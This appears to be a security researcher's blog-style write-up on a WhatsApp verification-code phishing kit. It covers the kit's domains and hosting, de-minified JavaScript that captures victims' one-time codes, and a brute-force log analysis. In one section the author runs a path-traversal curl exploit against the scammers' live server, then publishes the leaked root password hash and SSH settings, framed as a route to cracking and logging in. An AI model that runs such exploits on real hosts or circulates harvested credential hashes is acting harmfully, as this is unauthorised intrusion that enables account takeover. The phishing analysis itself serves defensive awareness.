

# Investigating a WhatsApp Phishing Scam

## 🔍 How It All Started

So there I was, just scrolling through social media and in our family group chat when my father shared images this sketchy link while says it was scam and just give aware of everyone. They claimed it was from WhatsApp's security center, saying something about account verification problems. The whole thing smelled fishy to me, so instead of just ignoring it like a normal person, I got curious and decided to poke around.

The link was to `whsa-whatsapp.com` - and right away I knew something was wrong. WhatsApp's real domain is `whatsapp.com`, not this weird knockoff hosted on Alibaba Cloud.

## 🚫 First Attempts and Getting Blocked

My first move was pretty basic - just click the link and see what happens. But these guys were smarter than I expected. The website immediately detected I was on a desktop and slammed me with an "Access Denied" page:

> "This page is only accessible on mobile devices"
> "Please use your mobile phone to access this page to ensure security verification"

Classic move to avoid security researchers who usually work from desktops. But I wasn't about to give up.

I tried the usual tricks first switched my user agent to mobile in Chrome, fired up the responsive design mode to simulate a phone screen, even tried different browsers. Nothing worked. These guys had done their homework and weren't falling for the basic stuff.

## 🛠️ The Bypass Solution

That's when I remembered my `bypass.js` script. I'd built this Puppeteer tool a while back for exactly these situations - when websites get too clever with their detection methods.

The script handles all the annoying stuff:

- Spoofs mobile user agents properly
- Disables debugger detection
- Waits for all the dynamic content to load
- Grabs the complete page source after everything runs

When I ran it against `whsa-whatsapp.com`, boom! The script worked its magic and revealed something interesting. The site was actually redirecting to a completely different domain: `dyieok9.xyz` (registered through Gname.com Pte. Ltd.). That was the real phishing kit hiding behind the scenes.

## 📄 Extracting the Evidence

After bypassing their protections, I managed to capture the complete `page_source.html`. This file turned out to be pure gold - it had all the embedded JavaScript, the full DOM structure, and references to tons of other resources.

Digging through the page source, I found references to several JavaScript files:

- `pages-index-app.6e146b92.js`
- `pages-index-indexto.3cd7b607.js`
- `index.c39c11d4.js`
- `chunk-vendors.e82de367.js`

## Domain Behaviors Observed

During the investigation, the following behaviors were observed when visiting related domains:

- **https://wow.sbskif.com/** and **wow.sbskif.com**:  
  Both returned a simple

  ```
  403 Forbidden
  nginx
  ```

  message, with no further information.

- **servih.com**:  
  Also returned

  ```
  403 Forbidden
  nginx
  ```

  and provided no visible content or code. It appears this domain may be used exclusively for WebSocket connections.

- **adwhatm.com**:  
  Access to this site requires authentication.  
  Below is a screenshot of the login requirement:

  

  ***

  **Network and BGP Information (via [NEScan](https://github.com/awiones/NEScan) & bgp.he.net):**

  - **IP Address:** 38.85.201.87
  - **Version:** IPv4
  - **Network Class:** A (Range: 1.0.0.0 to 126.255.255.255)
  - **Purpose:** Large networks and organizations
  - **Network Address:** 38.85.201.0
  - **Broadcast Address:** 38.85.201.255
  - **Netmask:** 255.255.255.0
  - **Prefix Length:** /24
  - **Subnet Type:** Class C default
  - **Address Range:** 38.85.201.1 - 38.85.201.254
  - **Binary:** 00100110010101011100100101010111
  - **Hexadecimal:** 0x2655c957
  - **Decimal:** 643156311
  - **Octal:** 46.125.311.127
  - **Geolocation:** Los Angeles, California, US (34.0544, -118.244)
  - **Timezone:** America/Los_Angeles
  - **ISP:** Cogent Communications
  - **Organization:** Kurun Cloud Inc
  - **AS:** AS8796 FASTNET DATA INC
  - **BGP Announcements:**
    | Origin AS | Announcement | Description |
    |-----------|---------------------|------------------|
    | AS174 | 38.0.0.0/8 | IRR Valid |
    | AS174 | 38.0.0.0/9 | IRR Parent Valid |
    | AS8796 | 38.85.201.0/24 | IRR Valid |

  _This information was collected using my custom tool NEScan and public BGP resources to confirm the infrastructure and hosting details behind adwhatm.com._

- **aop.owox-id.com** (discovered via WebSocket response from `wss://servih.com:1818`):  
  Attempting to access this backend directly resulted in a `403 Forbidden` error.
    
  

---

### 🚨 A Deeper Rabbit Hole: More Than Just WhatsApp Phishing

At first, I thought this was just a simple WhatsApp phishing scam. But as I dug deeper, it became clear that the infrastructure is much more dangerous and far-reaching. The same network hosts a variety of suspicious and malicious sites, not just phishing pages. This is a whole ecosystem of scams, gambling, fake shops, crypto, and more.

#### 🟢 Working URLs with Page Titles

| IP Address    | URL                              | Page Title / Description                                   |
| ------------- | -------------------------------- | ---------------------------------------------------------- |
| 38.85.201.15  | https://38.85.201.15             | 抱歉，站点已暂停 (Sorry, the site has been suspended)      |
| 38.85.201.19  | https://38.85.201.19             | 澳門六合彩票澳門六合彩票 (Macau Lottery Repetition)        |
| 38.85.201.28  | http://38.85.201.28              | 恭喜，站点创建成功！(Congrats, the site was created!)      |
| 38.85.201.48  | https://38.85.201.48             | TK-Store                                                   |
| 38.85.201.54  | http://38.85.201.54/login        | Redirected (Login page, accessible via HTTP)               |
| 38.85.201.68  | http://38.85.201.68              | 恭喜，站点创建成功！(Congrats, the site was created!)      |
| 38.85.201.86  | https://38.85.201.86/index/login | login page                                                 |
| 38.85.201.90  | https://38.85.201.90             | Redirect to http://222.fypub.top/ (external)               |
| 38.85.201.114 | https://38.85.201.114            | Shop - Your Global Shopping Platform                       |
| 38.85.201.120 | https://38.85.201.120            | app                                                        |
| 38.85.201.150 | http://38.85.201.150             | admin – 又一个 WordPress 站点 (Yet another WordPress site) |
| 38.85.201.153 | https://38.85.201.153            | sousuoyixiabaiduzhidao！- 发布 (Post something!)           |
| 38.85.201.173 | https://38.85.201.173            | 接口配置系统 (Interface Configuration System)              |
| 38.85.201.180 | http://38.85.201.180             | xGame                                                      |
| 38.85.201.185 | https://38.85.201.185/web/       | QFSCOIN: Cloud Mining                                      |
| 38.85.201.217 | https://38.85.201.217/m/one/one  | DeFi                                                       |
| 38.85.201.226 | https://38.85.201.226            | SHEIN                                                      |
| 38.85.201.231 | https://38.85.201.231/m/one/one  | DeFi                                                       |

_This shows the scale and diversity of the malicious infrastructure behind the scenes. It’s not just about WhatsApp phishing—this is a much bigger operation!_

## 📥 Downloading the Arsenal

Now for the fun part - time to grab all those JavaScript files. I fired up `wget` and started downloading everything I could find. The scammers hadn't bothered protecting these static files, so they were sitting there wide open.

```bash
wget https://dyieok9.xyz/static/js/pages-index-app.6e146b92.js
wget https://dyieok9.xyz/static/js/pages-index-indexto.3cd7b607.js
wget https://dyieok9.xyz/static/js/index.c39c11d4.js
wget https://dyieok9.xyz/static/js/chunk-vendors.e82de367.js
```

## 🔬 What I Found in the Code

Once I started digging through the downloaded files, I realized this was way more sophisticated than your average scam:

### The Infrastructure Discovery

Buried deep in the code, I found their entire backend setup:

- **Primary API**: `https://adwhatm.com`
- **Secondary API**: `https://servih.com`
- **WebSocket Server**: `wss://servih.com:1818`
- **Another backend**: `wow.sbskif.com` (this one showed up in the page source)

### The Clever Tricks

The more I analyzed, the more impressed I got with their technical setup:

1. **Geographic Blocking**: They specifically block US IP addresses by checking if the location equals "美国" (USA in Chinese)
2. **Anti-Debug Protection**: Multiple layers of debugger detection to stop people like me
3. **Device Targeting**: Only mobile devices allowed - desktop users get the boot
4. **Real-time Communication**: Full WebSocket setup for live chat simulation

## 🎭 The Fake WhatsApp Experience

What really blew my mind was how convincing their fake WhatsApp interface looked. These guys nailed it:

- **Perfect Branding**: Exact WhatsApp colors, fonts, and layout
- **Fake Verification Badges**: Those blue checkmarks that make everything look legit
- **Realistic Chat Interface**: Complete with message bubbles, timestamps, typing indicators
- **Multi-language Support**: Works in Chinese, English, Indonesian, and more

## 📱 How the Scam Actually Works

After piecing together all the code, I figured out their entire playbook:

### Step 1: The Hook

Victim gets the spam message with the `whsa-whatsapp.com` link, claiming their WhatsApp account needs verification.

### Step 2: The Redirect

Click the link and it redirects to `dyieok9.xyz` - but only if you're on mobile. Desktop users get blocked.

### Step 3: The Fake Security Warning

Site shows a convincing WhatsApp interface with scary warnings like:

> "WhatsApp Security Center has detected that your account has not been verified for a long time..."

### Step 4: Phone Number Collection

They ask for your phone number "for verification" using this fancy country picker that validates formats for 200+ countries.

### Step 5: The Code Trap

Here's the sneaky part - they generate fake "8-digit security codes" and ask you to enter them. But these aren't random codes - they're trying to intercept real WhatsApp verification codes!

### Technical Infrastructure Flow

```mermaid
graph LR
    A[whsa-whatsapp.com] --> B[pages-index-app.6e146b92.js]
    B --> C{isMobile Check}
    C -->|PC/Desktop| D[isWIN = true]
    C -->|Mobile| E[getIP Function]

    D --> F[Access Denied Page]
    E --> G[api.vore.top/api/IPdata]
    G --> H{IP Location Check}
    H -->|USA 美国| I[Block Access]
    H -->|Other Countries| J[Redirect to dyieok9.xyz]

    J --> K[pages-index-indexto.3cd7b607.js]
    K --> L[WebSocket Connection]
    L --> M[wss://servih.com:1818]

    K --> N[Phone Input Component]
    N --> O[Country Picker Validation]
    O --> P[POST to adwhatm.com]

    M --> Q[Chat Interface Simulation]
    Q --> R[Fake Security Messages]
    R --> S[8-digit Code Generation]

    S --> T[Code Display to User]
    T --> U[Real WhatsApp Code Entry]
    U --> V[Session Management]
    V --> W[Account Compromise]

    P --> X[servih.com API]
    X --> Y[Data Collection]
    Y --> Z[wow.sbskif.com Backend]

    style A fill:#ff9999
    style F fill:#ffcccc
    style I fill:#ffcccc
    style W fill:#ff6666
    style Z fill:#ff6666
```



## 🕸️ The Technical Web

The deeper I went, the more complex their infrastructure got:

```javascript
// Found scattered throughout the code:
mPostUrl: "https://adwhatm.com"; // Main data collection
mApiUrl: "https://servih.com"; // Secondary API
mKefuUrl: "servih.com"; // Customer service (!)
WebSocket: "wss://servih.com:1818"; // Real-time chat
```

They even have customer service! This isn't some kid in a basement - it's a full business operation.

## 🔐 Deep Dive: Sensitive Information Exposed

After thoroughly analyzing the static JavaScript files, I uncovered a treasure trove of sensitive configuration data that reveals the full scope of this operation:

### 🎯 Hardcoded API Endpoints and Infrastructure

The scammers made a critical mistake by hardcoding their entire backend infrastructure directly into the client-side JavaScript:

```javascript
// From pages-index-indexto.3cd7b607.js
mPostUrl: "https://adwhatm.com"; // Primary data collection endpoint
mApiUrl: "https://servih.com"; // Secondary API server
mKefuUrl: "servih.com"; // Customer service system
```

### 🔌 WebSocket Communication System

They've built a sophisticated real-time communication system:

```javascript
// WebSocket connection pattern found in the code
"wss://servih.com:1818?modulename=index&token=[TOKEN]&kefu_tourists_token=[TOKEN]";
```

**Key findings:**

- **Port 1818**: Custom WebSocket server for real-time chat simulation
- **Token-based Authentication**: Uses `kefu_tourists_token` and `kefu_token` for session management
- **Module System**: Organized backend with different modules (`modulename=index`)

### 📡 External API Dependencies

The operation relies on third-party services for geolocation:

```javascript
// IP geolocation service
url: "https://api.vore.top/api/IPdata";
```

This service helps them:

- Block US-based IP addresses (`"美国"===e.data.ipdata.info1`)
- Redirect users based on geographic location
- Avoid law enforcement from certain jurisdictions

### 🎣 WhatsApp Verification Code Interception

The most concerning discovery was their verification code handling system:

```javascript
// API endpoints for code manipulation
POST "/whatsapp/getCode"    // Request verification codes
POST "/whatsapp/checkCode"  // Validate intercepted codes
```

**How it works:**

1. Victim enters their phone number
2. System calls `/whatsapp/getCode` with the phone number
3. Real WhatsApp sends verification code to victim's phone
4. Victim enters the code thinking it's for "security verification"
5. System captures the real code via `/whatsapp/checkCode`
6. Attackers gain access to victim's WhatsApp account

### 🌍 Global Phone Number Validation

They've implemented comprehensive phone validation for 200+ countries:

```javascript
// Sample validation patterns found in the code
phoneRules: {
    "+86": {pattern: /^1[3-9]\d{9}$/, length: 11},      // China
    "+1": {pattern: /^\d{10}$/, length: 10},            // USA/Canada
    "+44": {pattern: /^[7-9]\d{9}$/, length: 10},       // UK
    "+61": {pattern: /^4\d{8}$/, length: 9},            // Australia
    // ... patterns for 200+ countries
}
```

This shows they're targeting victims globally, not just specific regions.

### 🏢 Customer Service Infrastructure

Perhaps most shocking was discovering they have a full customer service system:

```javascript
// Customer service endpoints
"/addons/kefu/index/initialize"; // Initialize support chat
"/addons/kefu/index/sendMessage"; // Send support messages
```

**Features found:**

- Multi-language support (Chinese, English, Indonesian, etc.)
- Real-time chat with "support agents"
- Session management and user tracking
- Message history and conversation logging

### 🔒 Session and Token Management

The system implements sophisticated session handling:

```javascript
// Token storage and management
uni.getStorageSync("kefu_tourists_token")
uni.setStorageSync("kefu_tourists_token", token)

// Session data structure
{
    session_id: [UNIQUE_ID],
    csr: [CUSTOMER_SERVICE_REP],
    modulename: [MODULE_NAME],
    message_id: [TIMESTAMP + RANDOM]
}
```

### 🚨 Security Implications

This analysis reveals several critical security concerns:

1. **Exposed Infrastructure**: Complete backend architecture visible to anyone
2. **Authentication Bypass**: Token generation patterns could be reverse-engineered
3. **WhatsApp Exploitation**: Direct integration with WhatsApp's verification system
4. **Global Targeting**: Infrastructure designed to attack users worldwide
5. **Professional Operation**: This isn't amateur hour - it's a sophisticated business

### 📊 Data Collection Scope

Based on the code analysis, they're collecting:

- **Phone numbers** (with country validation)
- **IP addresses and geolocation**
- **Device information** (mobile vs desktop)
- **WhatsApp verification codes**
- **Chat conversations and user interactions**
- **Session data and user behavior patterns**

## 🔓 WhatsApp OTP Bypass Methods (From Actual Code Analysis)

Based on my analysis of the actual static JavaScript files, here's how their WhatsApp OTP bypass system really works:

### 🎯 Real OTP Interception System

The core of their operation is the `startVerif` function found in `pages-index-indexto.3cd7b607.js`:

```javascript
startVerif:function(e){
    this.mErrorSize=1;
    var t=this;
    null!=o&&(clearInterval(o),o=null),
    t.post("/whatsapp/getCode",{phone:e},(function(a){
        var n=a.data;
        a.error;
        n?o=setInterval((function(){
            t.post("/whatsapp/checkCode",{uuid:n,t:(new Date).getTime()},(function(a){
                if(2==a.code)
                    t.sendAutoMessage(t.$t("系统消息---用户登录成功")),
                    t.getAgainSuccess(),
                    null!=o&&(clearInterval(o),o=null);
                else if(1==a.code){
                    var n=a.data;
                    n?(t.phoneCode=n,t.getSuccess()):
                    (t.mErrorSize++,3==t.mErrorSize&&t.sendSysErrorMessage(e))
                }else t.sendSysErrorMessage(e)
            }))
        }),1800):t.sendAutoMessage(t.$t("自动消息---安全码获取失败"))
    }))
}
```

**How this actually works:**

1. **Initial Request**: When victim enters phone number, system calls `/whatsapp/getCode` endpoint
2. **UUID Generation**: Server returns a UUID that tracks this verification attempt
3. **Polling Loop**: Every 1.8 seconds (1800ms), system polls `/whatsapp/checkCode` with the UUID
4. **Code Capture**: When victim enters their real WhatsApp verification code, it gets captured
5. **Success Handling**: Code 2 = successful login, Code 1 = code received, other = error

### 🕸️ Real-Time WebSocket Communication

The system uses WebSocket for real-time communication via `wss://servih.com:1818`:

```javascript
onWebSocketClient:function(){
    var e=this.mConfig.token_list.kefu_token?"&token="+this.mConfig.token_list.kefu_token:"",
    t=uni.getStorageSync("kefu_tourists_token");
    t=t?"&kefu_tourists_token="+t:"";
    var a="wss://"+this.mKefuUrl+":1818?modulename=index"+e+t;
    this.mWsIm=new i.default({
        url:a,
        onMessage:this.handleMessage,
        onError:this.handleError,
        onClose:this.handleClose
    }),
    this.mWsIm.connect()
}
```

**WebSocket Features:**

- Real-time chat simulation with fake customer service
- Live message handling and response automation
- Session management with tokens
- Heartbeat mechanism to maintain connection

### 🎭 Fake Chat Interface System

The system creates convincing WhatsApp-like chat messages:

```javascript
getSuccess:function(){
    if(!this.hasShownVerifyMessages){
        var e={
            type:"left-message",
            avatar:"../../static/photo.jpg",
            success:!0,
            code:this.phoneCode
        };
        this.addMessage(e),
        this.hasShownVerifyMessages=!0,
        this.sendAutoMessage(this.$t("系统消息---安全码获取成功")),
        this.getAgain()
    }
}
```

**Chat Features:**

- Displays captured verification codes to victim
- Shows fake "8-digit security codes"
- Provides copy-to-clipboard functionality
- Creates urgency with time limits ("3 minutes validity")

### 🌐 Geographic Filtering

The system blocks US users to avoid law enforcement:

```javascript
getIP:function(){
    uni.request({
        url:"https://api.vore.top/api/IPdata",
        method:"GET",
        success:function(e){
            200==e.data.code&&"美国"===e.data.ipdata.info1&&
            uni.redirectTo({url:"/pages/index/app"})
        }
    })
}
```

### 📱 Phone Number Validation

Comprehensive validation for global phone numbers:

```javascript
phoneRules:{
    "+86":{pattern:/^1[3-9]\d{9}$/,length:11},
    "+852":{pattern:/^[5-9]\d{7}$/,length:8},
    "+853":{pattern:/^[6]\d{7}$/,length:8},
    "+886":{pattern:/^9\d{8}$/,length:9},
    "+1":{pattern:/^\d{10}$/,length:10},
    "+81":{pattern:/^[789]0\d{8}$/,length:10},
    "+82":{pattern:/^1[0-9]{8}$/,length:9},
    // ... patterns for 200+ countries
}
```

### 🔄 Error Handling and Retry Logic

The system tracks failed attempts and implements retry mechanisms:

```javascript
sendSysErrorMessage:function(e){
    var t=(new Date).getTime()+this.session_id+Math.floor(1e4*Math.random()),
    a={
        c:"Message",
        a:"sendMessage",
        data:{
            uid:this.nInputPhone,
            message:this.$t("系统消息---用户获取安全码失败次数过多")+e,
            message_type:0,
            session_id:this.session_id,
            modulename:this.mConfig.config.modulename,
            message_id:t
        }
    };
    this.onWsSend(a)
}
```

**Error Handling:**

- Tracks `mErrorSize` (error count)
- After 3 failed attempts, shows error message
- Provides "reload" option to restart process
- Maintains session state across retries

### 🎯 The Complete Attack Flow

1. **Victim clicks malicious link** → Redirected to fake WhatsApp security page
2. **Geographic check** → US users blocked, others proceed
3. **Phone collection** → Country picker with 200+ countries supported
4. **Real API call** → `/whatsapp/getCode` triggers actual WhatsApp verification
5. **Polling begins** → Every 1.8 seconds, check for captured code
6. **Victim enters code** → Real WhatsApp code intercepted via `/whatsapp/checkCode`
7. **Account compromise** → Attackers gain access to victim's WhatsApp

### 🛡️ Technical Infrastructure

**Backend Endpoints:**

- `https://adwhatm.com` - Main data collection
- `https://servih.com` - Secondary API and WebSocket server
- `wss://servih.com:1818` - Real-time communication
- `https://api.vore.top/api/IPdata` - Geographic filtering
- `https://aop.owox-id.com` - Backend discovered via WebSocket response from `wss://servih.com:1818`

**Key Variables:**

- `phoneCode` - Stores captured verification code
- `mErrorSize` - Tracks failed attempts
- `session_id` - Maintains user session
- `mConfig` - Server configuration and tokens

## 🕵️‍♂️ LFI Exploit Success on adwhatm.com

During further investigation, I discovered that the `/download` endpoint on `adwhatm.com` is vulnerable to Local File Inclusion (LFI). By manipulating the `fileName` parameter, I was able to access sensitive files on the server, such as `/etc/passwd`.

**Example exploit:**

```bash
curl "https://adwhatm.com/download?fileName=../../../../etc/passwd"
```

This request returned the contents of `/etc/passwd`, confirming the LFI vulnerability. Multiple attempts with different files also resulted in `200 OK` responses, as documented in `LFI results.txt`.

This is a critical security issue, as it allows attackers to read arbitrary files from the server.

## 🔑 Extracted /etc/shadow Hashes

As a result of the LFI vulnerability, I was able to download `/etc/shadow` from the server. This file contains password hashes for system users, including the root account.

**root user:**

```
root:$5$FajNLQa0$eyWa4wS8Wf3jvibyLYIMxFTnRaTFIBTDxCHrmHpOLp3:20213:0:99999:7:::
```

- The string after `root:` is the hashed password (using SHA-256, indicated by `$5$`).
- This hash can potentially be cracked offline to recover the root password.

## 🚨 SSH Configuration Leak: Critical Impact

I also managed to retrieve the SSH server configuration (`sshd_config`):

```
PasswordAuthentication yes
PubkeyAuthentication yes
RSAAuthentication yes
```

**Why this is huge:**

- `PasswordAuthentication yes` means SSH logins using passwords are allowed.
- Since `/etc/shadow` was also leaked, attackers can attempt to crack the root password hash and log in directly via SSH.
- `PubkeyAuthentication yes` and `RSAAuthentication yes` mean public key logins are also possible, but password-based access is the most critical risk here.

### **The Discovery That Changed Everything**

While digging through the investigation files, I stumbled across something that made my jaw drop - a `messages.log` file that told the story of one of the most relentless brute force attacks I've ever seen. What started as a simple log review turned into uncovering a sophisticated 6-day siege against a server called `lax021887`.

### **The Numbers That Shocked Me**

When I first opened that log file, I thought there might be a few failed login attempts. Boy, was I wrong. As I scrolled through line after line of failed SSH attempts, the scale became clear - we're talking about **over 250,000 failed login attempts** spanning from June 8th to 14th. That's not just some script kiddie messing around; this was a full-scale assault.

The attack was relentless. Every few seconds, another attempt. Another failure. Another IP address trying to break in. It was like watching a digital siege unfold in real-time through the logs.

### **Meet the Attackers**

As I analyzed the patterns, five major players emerged from the chaos:

**The Heavy Hitter**: `50.174.125.2` was absolutely brutal - this single IP hammered the server with **187,656 attempts**. That's roughly one attempt every 2-3 seconds for six straight days. The persistence was honestly impressive in a terrifying way.

**The Backup Muscle**: `81.91.50.182` wasn't far behind with **62,792 attempts**. These two IPs alone accounted for the majority of the attack traffic.

**The Persistent One**: `80.94.95.15` caught my attention with **2,459 attempts** spread across multiple attack waves. This wasn't random - it was calculated and methodical.

**The Crypto Hunter**: `142.93.204.139` was fascinating because it specifically targeted cryptocurrency-related usernames. Only **456 attempts**, but every single one was laser-focused on crypto infrastructure.

### **The Attack Patterns That Revealed Their Strategy**

What really blew my mind was how organized these attacks were. This wasn't random password spraying - these guys had done their homework.

**The Crypto Obsession**: Watching `142.93.204.139` work was like seeing a crypto-focused attack in action. They systematically tried usernames like `polkadot`, `solana`, `ethereum`, `ethereumdocker`, `dogecoin`, `btc`, `eth`, `gwei`, `ether`, `web3`, `validate`, and `delegate`. Someone clearly thought this server was hosting cryptocurrency services and wanted in badly.

**The IoT Hunter**: Then there was the systematic targeting of IoT devices. Seeing attempts for `ubnt` (Ubiquiti's default username) and `telecomadmin` told me these attackers weren't just after the main server - they were mapping the entire network infrastructure. Smart and scary.

**The Service Account Sweep**: The most common approach was going after standard service accounts. Watching thousands of attempts against `admin`, `user`, `ubuntu`, `debian`, `postgres`, `oracle`, `nginx`, `apache`, `git`, `docker`, and `deploy` showed me these were experienced attackers who knew exactly what they were looking for.

### **The Global Infrastructure Behind the Attack**

Tracing the IP addresses revealed a sophisticated operation spanning multiple continents. The primary attackers were using US-based cloud infrastructure - DigitalOcean, AWS, various VPS providers. But there were also European IPs and what looked like Asian botnets in the mix.

This wasn't some lone hacker in a basement. This was a distributed operation with serious resources behind it.

### **The Chinese Connection**

Here's where things got really interesting. As I dug deeper into the usernames being tested, I started seeing Chinese names and terms:

- `ceshi` (测试) - literally means "test" in Chinese
- `chengqian` (程前) - a Chinese personal name
- `chiaki` (千秋) - could be Japanese or Chinese
- `fangxu` (方旭) - another Chinese personal name
- `gaoshanshan` (高珊珊) - definitely a Chinese name

This pattern suggested either Chinese-speaking threat actors were behind the campaign, or they were specifically targeting Chinese users and infrastructure. Given the systematic nature and the crypto focus, my money's on organized Chinese threat actors.

### **The Victim, Not the Villain**

One crucial realization hit me as I analyzed all this data - the server `lax021887` wasn't the bad guy here. This was clearly a victim under siege. Every single log entry showed failed attempts, defensive measures, and a system under constant pressure.

The server held up remarkably well, actually. Six days of non-stop attacks and not a single successful breach that I could see in the logs. Whatever security measures were in place, they worked.

### **What This All Means**

This discovery completely changed my perspective on the investigation. We're not just dealing with some amateur phishing operation - we're looking at a landscape where sophisticated threat actors are conducting massive, coordinated attacks against infrastructure worldwide.

The crypto focus, the IoT reconnaissance, the geographic distribution, the persistence - this all points to professional cybercriminal organizations with serious resources and clear objectives. The fact that I stumbled across this while investigating a WhatsApp phishing scam shows just how interconnected the modern threat landscape really is.

The server `lax021887` survived this onslaught, but how many others didn't? How many similar attacks are happening right now that we don't even know about?

---

_Investigation date: June 2025_  
_All domains mentioned should be considered active threats_
